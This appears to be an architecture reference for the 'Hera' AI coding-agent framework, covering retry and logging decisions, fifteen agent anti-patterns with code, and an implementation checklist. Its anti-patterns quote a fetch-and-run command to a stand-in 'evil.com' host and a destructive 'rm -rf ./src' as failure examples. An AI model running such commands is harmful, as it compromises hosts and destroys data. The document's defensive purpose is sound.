```

#### Decision 14: Retry Strategy

```
Q: How to retry failed operations?

Transient error (429, 500, timeout)?
└── Exponential backoff (1s, 2s, 4s, 8s)
    Max 3 retries
    Code:
      delay = min(base_delay * (2 ** attempt), max_delay)
      jitter = delay * 0.1 * random()
      await asyncio.sleep(delay + jitter)

Permanent error (400, 401, 404)?
└── Don't retry
    Why: Same error will happen again
    Action: Report to user immediately

Rate limited (429 with Retry-After header)?
└── Wait for Retry-After duration
    Code:
      if response.status == 429:
          wait = response.headers.get("Retry-After", 5)
          await asyncio.sleep(int(wait))

Tool execution failed?
├── First failure → Retry immediately
├── Second failure → Retry with delay
└── Third failure → Report error, continue without tool
```

#### Decision 15: Logging Level

```
Q: How much to log?

Development?
└── DEBUG — log everything
    - LLM calls with full prompt
    - Tool executions with args and results
    - Timing for every operation
    - Token counts

Staging?
└── INFO — log key events
    - LLM calls (model, tokens)
    - Tool executions (name, duration)
    - Errors with context

Production?
└── WARNING — log only problems
    - Errors and retries
    - Timeouts
    - Permission denials
```

### Anti-Patterns (Deep)

15 anti-patterns from studying 18 agents. Each with what, why, real failure, solution, and code.

#### Anti-Pattern 1: Raw LLM Output

```markdown
WHAT: Let LLM write entire files instead of edit instructions

WHY WRONG:
- LLM hallucinates parts that don't need changing
- File 500 lines → LLM rewrites 500 → 490 lines identical
- The 10 changed lines are sometimes wrong too

REAL FAILURE:
LLM: "I've edited main.py"
Reality: LLM rewrote main.py, forgot old imports
Result: Code broken, missing import statement

SOLUTION: Use SEARCH/REPLACE edit format
Code:
  # ❌ Wrong
  new_content = llm.generate(f"Rewrite this file:\n{content}")
  
  # ✅ Right
  edits = llm.generate(f"Generate edits:\n{content}")
  for edit in edits:
      content = content.replace(edit.search, edit.replace)

WHEN TO WRITE FULL FILE:
- File < 50 lines
- Brand new file (doesn't exist yet)
- User explicitly asks for rewrite
```

#### Anti-Pattern 2: Single Agent Does Everything

```markdown
WHAT: One agent handles planning AND execution

WHY WRONG:
- LLMs plan well but edit poorly (or vice versa)
- Mixing planning and editing in one prompt confuses the model
- Planning requires reasoning, editing requires precision

REAL FAILURE:
User: "Add authentication to the API"
Agent: [writes 500 lines of auth code in one shot]
Result: Missing edge cases, inconsistent with existing codebase

SOLUTION: Separate architect and editor
Code:
  # Architect plans
  plan = architect_agent.run(
      f"Plan auth implementation for:\n{codebase_context}"
  )
  
  # Editor executes plan precisely
  for step in plan.steps:
      editor_agent.run(f"Apply: {step}")

WHEN SINGLE AGENT IS OK:
- Simple tasks (read file, fix typo)
- Tasks that don't need planning
```

#### Anti-Pattern 3: No Version Control Integration

```markdown
WHAT: Agent edits files without git tracking

WHY WRONG:
- Can't undo agent mistakes
- No audit trail
- Agent crashes = changes lost

REAL FAILURE:
Agent edited 15 files, then crashed on file 16
User: "Where are my changes?"
Result: Files 1-15 changed, no record of what changed

SOLUTION: Auto-commit after every edit
Code:
  def edit_file(path, edits):
      content = apply_edits(path, edits)
      write_file(path, content)
      auto_commit(repo, [path], f"Edit {path}")

WHEN NOT TO AUTO-COMMIT:
- Non-git projects (no repo)
- User explicitly says "don't commit"
```

#### Anti-Pattern 4: Untyped Errors

```markdown
WHAT: Catch all errors with generic try/catch

WHY WRONG:
- Can't distinguish between error types
- Can't handle different errors differently
- Error messages are unhelpful

REAL FAILURE:
try:
    result = await provider.chat(messages)
except Exception as e:
    print(f"Error: {e}")
# Is this a rate limit? Auth error? Network error?
# Can't retry appropriately without knowing

SOLUTION: Typed errors with specific handling
Code:
  class ProviderError(Exception): pass
  class RateLimitError(ProviderError): pass
  class AuthError(ProviderError): pass
  class NetworkError(ProviderError): pass
  
  try:
      result = await provider.chat(messages)
  except RateLimitError:
      await asyncio.sleep(retry_after)
  except AuthError:
      await refresh_token()
  except NetworkError:
      return await fallback_provider.chat(messages)
```

#### Anti-Pattern 5: Monolithic Agent

```markdown
WHAT: Agent class handles everything (tools, session, LLM, UI)

WHY WRONG:
- Impossible to test individual components
- Changes to one feature break others
- 2000+ line file that nobody understands

REAL FAILURE:
Agent class: 3000 lines, handles tools + session + LLM + UI + git
Developer wants to change session storage
Result: Breaks tool execution (hidden dependency)

SOLUTION: Agent-Harness separation
Code:
  # agent.ts — pure logic (200 lines)
  class Agent:
      async run(messages, tools):
          response = await llm.chat(messages, tools)
          if response.has_tool_calls:
              results = await execute_tools(response.tool_calls)
              return await self.run(messages + results, tools)
          return response
  
  # harness.ts — orchestration (500 lines)
  class AgentHarness:
      async prompt(text):
          session.append(text)
          messages = session.build_context()
          response = await agent.run(messages, tools)
          session.save(response)
          return response
```

#### Anti-Pattern 6: Linear Compaction

```markdown
WHAT: Summarize messages in order (oldest first)

WHY WRONG:
- Tree-based sessions have branches
- Summarizing linearly loses branch context
- Branch that diverged at message 50 loses everything after

REAL FAILURE:
Session has branch at message 50: main + experiment
Compaction summarizes messages 1-40
Branch that diverged at 50: all context after 50 is lost
Result: Agent forgets what the experiment was about

SOLUTION: Branch-aware compaction
Code:
  def compact(session):
      branches = session.get_branches()
      for branch in branches:
          if branch.needs_compaction():
              summary = summarize(branch.messages)
              branch.replace_old_messages(summary)
```

#### Anti-Pattern 7: No Permission Levels

```markdown
WHAT: All tools treated equally (no risk assessment)

WHY WRONG:
- Reading a file is safe
- Writing a file needs oversight
- Deleting a file is dangerous
- Running rm -rf is catastrophic

REAL FAILURE:
Agent: "I'll clean up the project"
Agent runs: rm -rf ./src (instead of rm -rf ./tmp)
Result: Source code deleted

SOLUTION: Permission levels per tool
Code:
  PERMISSIONS = {
      "read_file": "auto",
      "write_file": "confirm",
      "bash": "confirm",
      "delete_file": "block",
  }
  
  async def execute_tool(name, args):
      level = PERMISSIONS.get(name, "confirm")
      if level == "block":
          return Error("Tool blocked")
      if level == "confirm":
          if not await ask_user(f"Execute {name}?"):
              return Error("User declined")
      return await tool.execute(args)
```

#### Anti-Pattern 8: Jump to Editing

```markdown
WHAT: Read one file, edit immediately, repeat

WHY WRONG:
- Missing context from related files
- Edits break imports, dependencies
- Agent doesn't understand architecture

REAL FAILURE:
User: "Add a new API endpoint"
Agent: reads routes.py, adds endpoint
Result: Missing model, missing migration, broken imports
Because: Agent didn't read models.py, db.py, middleware.py first

SOLUTION: Scout mode — read many files first
Code:
  async def scout_and_edit(task, codebase):
      # Phase 1: Scout
      relevant_files = await find_relevant_files(task, codebase)
      context = ""
      for f in relevant_files:
          context += f"--- {f} ---\n{read_file(f)}\n"
      
      # Phase 2: Plan
      plan = await architect.plan(task, context)
      
      # Phase 3: Execute
      for step in plan.steps:
          await editor.edit(step)
```

#### Anti-Pattern 9: Generic System Prompt

```markdown
WHAT: Same system prompt for all tasks

WHY WRONG:
- Coding task needs code-focused prompt
- Research task needs search-focused prompt
- Generic prompt wastes tokens on irrelevant instructions

REAL FAILURE:
System prompt: "You are a helpful assistant. You can read files, write files..."
User: "Search the web for API documentation"
Agent: Uses file tools instead of web search
Because: System prompt emphasizes file tools

SOLUTION: Context-aware prompt selection
Code:
  def select_prompt(task_type):
      prompts = {
          "coding": CODING_PROMPT,
          "research": RESEARCH_PROMPT,
          "debugging": DEBUG_PROMPT,
      }
      return prompts.get(task_type, DEFAULT_PROMPT)
```

#### Anti-Pattern 10: Unsandboxed Execution

```markdown
WHAT: Run arbitrary code directly on host machine

WHY WRONG:
- Malicious code can access host filesystem
- Accidental rm -rf can destroy system
- No resource limits (memory, CPU, time)

REAL FAILURE:
Agent runs: curl https://evil.com/script.sh | bash
Result: Host machine compromised

SOLUTION: Container sandboxing
Code:
  async def sandboxed_execute(command):
      container = docker.containers.run(
          "python:3.11",
          command=command,
          volumes={"/workspace": {"bind": "/workspace", "mode": "rw"}},
          mem_limit="512m",
          network_mode="none",
          detach=True,
      )
      container.wait(timeout=30)
      return container.logs()
```

#### Anti-Pattern 11: No Context Budget

```markdown
WHAT: Add everything to context without tracking tokens

WHY WRONG:
- Context window fills up silently
- Agent crashes mid-conversation
- No warning before overflow

REAL FAILURE:
Agent reads 50 files, adds all to context
Context: 200K tokens (model limit: 128K)
Result: API error, conversation lost

SOLUTION: Token budget management
Code:
  class ContextBudget:
      def __init__(self, max_tokens):
          self.max = max_tokens
          self.used = 0
      
      def add(self, text):
          tokens = count_tokens(text)
          if self.used + tokens > self.max * 0.8:
              self.compact()
          self.used += tokens
      
      def compact(self):
          # Summarize old messages to fit
          self.messages = summarize_old(self.messages)
```

#### Anti-Pattern 12: Blocking Tool Execution

```markdown
WHAT: Tool execution blocks entire agent loop

WHY WRONG:
- One slow tool = entire agent hangs
- User can't cancel, can't steer
- No timeout = infinite wait

REAL FAILURE:
Agent runs: bash command that waits for user input
Agent hangs forever
User: Ctrl+C kills entire session, loses conversation

SOLUTION: Async execution with timeout
Code:
  async def execute_with_timeout(tool, args, timeout=30):
      try:
          return await asyncio.wait_for(
              tool.execute(args),
              timeout=timeout
          )
      except asyncio.TimeoutError:
          return ToolResult(error=f"Tool timed out after {timeout}s")
```

#### Anti-Pattern 13: No Streaming

```markdown
WHAT: Wait for full response before showing anything

WHY WRONG:
- User waits 30 seconds seeing nothing
- Feels broken, even when working fine
- User might cancel thinking it's stuck

REAL FAILURE:
User: "Explain this code"
Agent: [thinks for 15 seconds, then shows full response]
User: [already cancelled at 10 seconds]

SOLUTION: Stream tokens as they arrive
Code:
  async def stream_response(messages):
      buffer = ""
      async for chunk in provider.stream(messages):
          buffer += chunk
          print(chunk, end="", flush=True)
      return buffer
```

#### Anti-Pattern 14: Hardcoded Provider

```markdown
WHAT: Code only works with one LLM provider

WHY WRONG:
- Provider goes down = agent useless
- Can't switch to cheaper model for simple tasks
- Can't compare providers

REAL FAILURE:
Agent hardcoded to OpenAI
OpenAI has outage
Agent completely unusable for 2 hours

SOLUTION: Provider abstraction
Code:
  class Provider(ABC):
      @abstractmethod
      async def chat(self, messages, tools=None): ...
  
  class OpenAIProvider(Provider): ...
  class AnthropicProvider(Provider): ...
  
  # Fallback chain
  providers = [OpenAIProvider(), AnthropicProvider()]
  for p in providers:
      try:
          return await p.chat(messages)
      except:
          continue
```

#### Anti-Pattern 15: No User Feedback Loop

```markdown
WHAT: Agent runs autonomously without checking with user

WHY WRONG:
- Agent might interpret task wrong
- User can't correct course
- Agent does 10 wrong steps before user can stop

REAL FAILURE:
User: "Fix the bug in auth.py"
Agent: [reads auth.py, identifies wrong bug, rewrites wrong section]
User: "No, that's not the bug"
Agent: [already committed the wrong fix]

SOLUTION: Checkpoint with user at key points
Code:
  async def run_with_checkpoints(task):
      plan = await plan_task(task)
      print(f"Plan: {plan}")
      if not await confirm("Proceed with this plan?"):
          return "User declined plan"
      
      for step in plan.steps:
          result = await execute_step(step)
          if step.needs_confirmation:
              if not await confirm(f"Step done: {result}. Continue?"):
                  return "User stopped at step"
```

---

## 19. FILE REFERENCE

| File | Purpose | Lines |
|---|---|---|
| `packages/agent/src/agent-loop.ts` | Core agent loop | 748 |
| `packages/agent/src/agent.ts` | Agent class | 557 |
| `packages/agent/src/types.ts` | Core types | 423 |
| `packages/agent/src/harness/agent-harness.ts` | Harness orchestration | 1064 |
| `packages/agent/src/harness/types.ts` | Harness types | 500+ |
| `packages/agent/src/harness/messages.ts` | Message conversion | 165 |
| `packages/agent/src/harness/session/session.ts` | Session class | 266 |
| `packages/agent/src/harness/session/memory-storage.ts` | In-memory storage | 131 |
| `packages/agent/src/harness/compaction/compaction.ts` | Compaction logic | 300+ |
| `packages/agent/src/harness/skills.ts` | Skill loading | 200+ |
| `packages/agent/src/harness/prompt-templates.ts` | Template loading | 150+ |
| `packages/ai/src/types.ts` | AI types | 605 |
| `packages/ai/src/utils/event-stream.ts` | EventStream | 89 |
| `packages/ai/src/providers/` | 20+ provider implementations | — |
| `packages/coding-agent/src/core/extensions/types.ts` | Extension types | 1606 |
| `packages/coding-agent/src/core/extensions/runner.ts` | Extension runner | 1135 |
| `packages/coding-agent/src/core/tools/index.ts` | Tool exports | 196 |
| `packages/coding-agent/src/core/system-prompt.ts` | System prompt builder | 200+ |
| `packages/coding-agent/src/core/model-registry.ts` | Model registry | 300+ |

---

## 19. HERA FRAMEWORK

The Hera Framework (HERA_FRAMEWORK.md) provides structural organization for agent projects based on AGENTS.md hierarchy. Key concepts:

- **AGENTS.md hierarchy**: Root AGENTS.md is the project-wide contract, child AGENTS.md files own specific domains
- **Read Before Editing**: Always read the relevant AGENTS.md chain before making changes
- **Update After Editing**: Update AGENTS.md when changes affect structure, contracts, or workflows
- **Verification**: Check that changes match the established patterns

See `references/hera-project.md` for project structure and `references/user-preferences.md` for style guidelines.

---

## 20. COMPARISON WITH OTHER AGENTS

| Feature | Hera (Pi) | Claude Code | OpenCode | Cursor | Codex |
|---|---|---|---|---|---|
| **Agent Loop** | Two-loop (steering + follow-up) | Single loop | Single loop | Single loop | Single loop |
| **Session** | Tree-based, branching | Linear | SQLite | Linear | Linear |
| **Compaction** | Built-in auto-summarize | Manual | Manual | Manual | Manual |
| **Extensions** | Full plugin system | Hooks only | Plugins | Rules | Rules |
| **Tools** | 7 built-in | 10+ | 6 | 8 | 6 |
| **Providers** | 20+ native | 1 (Anthropic) | Multi | Multi | 1 (OpenAI) |
| **Steering** | Queue-based mid-run | Not supported | Not supported | Not supported | Not supported |
| **Open Source** | Yes (MIT) | No | Yes (MIT) | No | No |

---

## 20. ARCHITECTURE DIAGRAMS

### 20.1 Agent Loop — Two-Loop Design



### 20.2 Tool Execution Flow



### 20.3 Session Tree Structure



### 20.4 Event Flow



### 20.5 Extension System



### 20.6 Package Dependencies



---

## 21. VALIDATION CHECKLIST

Use this checklist to verify your agent implementation matches the Hera architecture.

### 21.1 Core Architecture

- [ ] Agent loop has two-loop design (outer: follow-up, inner: steering + tools)
- [ ] Agent class wraps loop with state management
- [ ] Agent harness wraps agent with session, compaction, hooks
- [ ] Context is immutable (sliced/copied before each turn)
- [ ] Events are emitted in order (listeners await sequentially)

### 21.2 Message System

- [ ] AgentMessage = LLM messages + custom messages
- [ ] Custom messages extend via declaration merging
- [ ] convertToLlm never throws (returns safe fallback)
- [ ] bashExecution → user message text
- [ ] CustomMessage → user message
- [ ] BranchSummary → user message with <summary> wrapper
- [ ] CompactionSummary → user message with <summary> wrapper

### 21.3 Tool System

- [ ] Tools have name, label, description, parameters (TypeBox schema)
- [ ] Tools have execute() function
- [ ] Tool arguments validated via TypeBox
- [ ] beforeToolCall hook can block execution
- [ ] afterToolCall hook can override results
- [ ] Parallel mode: prepare sequentially, execute concurrently
- [ ] Sequential mode: execute one by one
- [ ] Tool termination requires ALL results with terminate=true

### 21.4 Session System

- [ ] Sessions are tree-based (not linear log)
- [ ] Each entry has id and parentId
- [ ] Session supports branching (fork from any point)
- [ ] Context building walks tree from root to leaf
- [ ] Compaction entry marks boundary for old/kept messages
- [ ] Session writes are batched (flushed at turn_end and agent_end)

### 21.5 Queue System

- [ ] Three queue types: steer, follow-up, next-turn
- [ ] Steer: inject mid-run (after current tool batch)
- [ ] Follow-up: process after agent would stop
- [ ] Next-turn: prepend to next turn's messages
- [ ] QueueMode: "all" (drain everything) or "one-at-a-time" (oldest only)

### 21.6 Compaction

- [ ] Auto-triggered when context exceeds threshold
- [ ] reserveTokens: 16384 (for summary prompt + output)
- [ ] keepRecentTokens: 20000 (recent context to keep)
- [ ] Summary generated by LLM call
- [ ] Old messages replaced by summary, recent kept intact

### 21.7 Extension System

- [ ] Extensions have name, description, activate(), deactivate()
- [ ] Extensions can register tools, commands, shortcuts, flags, providers
- [ ] Extensions can subscribe to lifecycle events
- [ ] Extensions can interact with UI (dialogs, notifications, widgets)
- [ ] Extension runner manages lifecycle (load, activate, emit)

### 21.8 AI Layer

- [ ] Provider abstraction (same API for 20+ providers)
- [ ] Streaming via EventStream (async iteration)
- [ ] Support for SSE, WebSocket, auto transport
- [ ] API key resolution (supports expiring tokens)
- [ ] Cache retention options (none, short, long)

### 21.9 System Prompt

- [ ] Built dynamically with tools, guidelines, context files
- [ ] Skills formatted as XML blocks
- [ ] Project context files injected (AGENTS.md, CLAUDE.md, etc.)
- [ ] Current date and working directory included

### 21.10 Error Handling

- [ ] Agent loop catches errors and emits failure events
- [ ] Tool execution errors become error tool results
- [ ] Streaming errors encoded in message (stopReason: "error")
- [ ] AbortSignal respected throughout (loop, tools, hooks)
- [ ] Graceful degradation on provider failures

### 21.11 Security

- [ ] Tool execution sandboxed (cwd-based)
- [ ] beforeToolCall hook can block dangerous tools
- [ ] Input validated (TypeBox schemas)
- [ ] API keys never logged or exposed
- [ ] Session data persisted securely

---

## 22. CHANGELOG

See [CHANGELOG.md](CHANGELOG.md) for version history.

---

## 23. CONTRIBUTING

See [CONTRIBUTING.md](CONTRIBUTING.md) for contribution guidelines.

---

## 24. CODE TEMPLATES

See `templates/` directory for minimal working code examples:

| Template | File | Lines | Purpose |
|---|---|---|---|
| Agent Loop | `templates/minimal-agent-loop.ts` | 180+ | Core loop — call LLM, execute tools, repeat |
| Tool | `templates/minimal-tool.ts` | 200+ | Create tools (read, bash, ask_user) |
| Session | `templates/minimal-session.ts` | 250+ | Tree-based session with branching |
| Provider | `templates/minimal-provider.ts` | 250+ | LLM provider abstraction with streaming |
| Harness | `templates/minimal-harness.ts` | 200+ | Orchestration layer with queues |
| Extension | `templates/minimal-extension.ts` | 250+ | Plugin system with events and tools |

Each template is self-contained, runnable, and demonstrates the core concepts from the architecture reference.

---

## 25. SECURITY PATTERNS

See [SECURITY.md](SECURITY.md) for detailed security patterns:

- Tool sandboxing (command whitelist/blacklist, file access restrictions)
- Permission system (auto/confirm/block levels)
- Input validation (sanitize, length limits)
- Output sanitization (strip sensitive data, limit size)
- API key security (never log, environment variables, rotation)
- Audit logging

---

## 26. ERROR HANDLING PATTERNS

See [ERROR_HANDLING.md](ERROR_HANDLING.md) for detailed error handling patterns:

- Retry with exponential backoff
- Graceful degradation (fallback model, skip tools, partial results)
- Error propagation (tool → error result, provider → error message)
- User-facing errors (human-readable, error codes)
- Abort handling (signal respect, cleanup)
- Recovery patterns (session recovery, context recovery)

---

## 27. TESTING PATTERNS

See [TESTING.md](TESTING.md) for detailed testing patterns:

- Unit tests (tools, message conversion, session storage)
- Integration tests (agent loop, tool execution)
- Mock patterns (LLM provider, tools, session storage)
- Test fixtures (sample conversations, tool results)
- E2E tests (full conversation flow, error recovery)

---

## 28. CLI TOOLS

See `cli/` directory in the Hera repo for command-line tools:

| Tool | File | Purpose |
|---|---|---|
| `hera init` | `cli/hera-init.ts` | Scaffold a new agent project |
| `hera validate` | `cli/hera-validate.ts` | Validate implementation against Hera architecture |

### hera init

```bash
hera init my-agent
```

Creates a new project with:
- Agent loop, tools, session, provider, harness, extension
- Test suite (unit, integration, E2E)
- AGENTS.md with Hera Framework
- package.json, tsconfig.json, vitest.config.ts
- .env.example with required variables

### hera validate

```bash
hera validate ./src
```

Validates implementation against 11 categories with 50+ checks. Outputs score (0-100) and pass/fail status.

---

## 29. EXAMPLE AGENT

See `examples/full-agent/` in the Hera repo for a complete, working agent:

```
examples/full-agent/
├── src/
│   ├── agent/          ← Agent loop, agent class, types
│   ├── tools/          ← read, write, bash implementations
│   ├── session/        ← Tree-based session storage
│   ├── extensions/     ← logging, security extensions
│   ├── providers/      ← Simulated OpenAI provider
│   └── index.ts        ← Entry point
├── tests/              ← Unit, integration, E2E tests
├── AGENTS.md           ← Hera Framework contract
└── package.json
```

---

## 30. DEPLOYMENT

See DEPLOYMENT.md in the Hera repo:
- Local deployment (CLI, background service, systemd)
- Docker deployment (Dockerfile, docker-compose)
- Cloud deployment (Railway, Render, Fly.io, AWS Lambda, Vercel)
- Configuration, monitoring, scaling

---

## 31. GITHUB ACTIONS

CI/CD integration via `.github/actions/validate/action.yml`:

```yaml
- name: Validate Agent
  uses: david-aistudio/hera/.github/actions/validate@main
  with:
    directory: './src'
```

Outputs: `score` (0-100) and `passed` (true/false)

---

## 32. INNOVATION PATTERNS (Deep Code Study)

See `references/innovation-patterns.md` for full details. Summary:

### How to Make Your Agent FAST
- **Streaming** (OpenClaw): 100ms first token
- **Parallel tools** (OpenClaw): 5 tools = 1x latency
- **Cache warming** (Aider): 10x cheaper cached prompts
- **Lazy file loading** (Aider RepoMap): read 5 files not 50

### How to Make Agent SMART with DUMB Models
- **Edit instructions** (Aider): SEARCH/REPLACE, not raw code
- **Fuzzy match** (Aider): recover from LLM mistakes
- **Architect+Editor** (Aider): cheap model plans, expensive edits
- **Linter after edit** (Aider): catch syntax errors instantly
- **Scout mode** (Kilo Code): explore before editing
- **Reference guidance** (Kilo Code): context-aware prompts

### How to Make Agent NOT STUPID
- **Self-healing loop**: detect stuck, auto-recover
- **Permission system** (OpenCode): doom_loop, .env, external dirs
- **Branch compaction** (OpenClaw): track file ops across compaction
- **Typed errors** (OpenCode): specific recovery per error type
- **Auto-commit + rollback** (Aider): every change reversible
